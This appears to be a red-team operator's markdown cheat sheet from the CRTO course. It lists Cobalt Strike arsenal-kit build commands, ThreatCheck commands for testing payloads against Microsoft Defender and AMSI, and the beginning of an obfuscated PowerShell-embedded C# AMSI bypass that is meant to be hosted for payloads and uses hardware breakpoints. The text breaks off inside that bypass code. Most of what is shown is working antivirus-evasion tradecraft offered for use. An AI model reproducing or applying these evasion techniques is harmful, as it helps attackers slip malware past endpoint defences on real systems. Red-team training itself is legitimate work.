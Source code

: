 # Zero-Point Security Red Team Operations (CRTO) I
All the commands from the course, generalized and tweaked to suit my needs, organized in a logical order

***DO NOT USE THIS DOCUMENT AS IS***
1. download this markdown file, and open it in [Obisidan](https://obsidian.md)
2. in Settings → Core Plugins, enable Outline, then run "Outline: Show Outline" in the command palette
     - Now you can quickly jump to a particular section by clicking its heading in the outline.
3. in Settings → Community plugins → Browse, find and install "Copy Inline Code"
     - Now you can copy any command by clicking on the end of it.
4. enter "reading" view by clicking the book in the top-right (by default)
     - Now you can see commands for linked sections by hovering over them.

## Microsoft Defender Antivirus
`Get-MpThreatDetection | sort $_InitialDetectionTime | select -First 1`
#### Artifact Kit

Build
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact`
`./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`
Detect Threats
`C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\[artifact].exe`
#### Resource Kit

Build
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource`
`./build.sh /mnt/c/Tools/cobaltstrike/resources`

Detect Threats
`C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\[resource].ps1 -e amsi`
#### Manual AMSI Bypasses
use with PowerShell payloads

AMSI Bypass → host at /bypass
```powershell
$HWBP = @"
using System;
using System.Collections.Generic;
using System.Linq.Expressions;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

namespace HWBP {
	public class Amsi {
		static string a = "msi";
		static string b = "anB";
		static string c = "ff";
		static IntPtr BaseAddress = WinAPI.LoadLibrary("a" + a + ".dll");
		static IntPtr pABuF = WinAPI.GetProcAddress(BaseAddress, "A" + a + "Sc" + b + "u" + c + "er");
		static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(WinAPI.CONTEXT64)));
		
		public static void Bypass() {
			WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64();
			ctx.ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL;
			
			MethodInfo method = typeof(Amsi).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
```